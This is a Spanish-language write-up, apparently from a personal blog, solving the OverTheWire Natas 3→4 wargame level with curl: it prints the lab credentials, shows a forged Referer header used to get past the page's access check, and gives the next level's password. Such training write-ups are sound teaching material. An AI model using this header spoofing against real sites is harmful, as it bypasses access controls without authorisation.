 ```yaml
---
title: OverTheWire - Natas 3 -> 4 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 3 -> 4 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas4
Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
URL:      http://natas4.natas.labs.overthewire.org
```

# Solución
---


Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas3-4-3.png)

Vemos que al final de la página nos da instrucciones para visualizar la contraseña del siguiente nivel. Nos señala que solo los usuarios que vengan desde "http://natas5.natas.labs.overthewire.org/" pueden ver la contraseña.

![](/images/images-otw-natas/natas3-4-1.png)

Si agregamos la cabecera `Referer: http://natas5.natas.labs.overthewire.org/` podremos ver la contraseña, y con el parámetro `-H` agregamos esta cabecera a nuestro comando de curl.

Con este comando resolvemos el reto:

```bash
curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ -H 'Referer: http://natas5.natas.labs.overthewire.org/'
```

![](/images/images-otw-natas/natas3-4-2.png)

# Contraseña
---

`iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

---

## [Anterior](/level-2-3)
## [Siguiente](/level-4-5)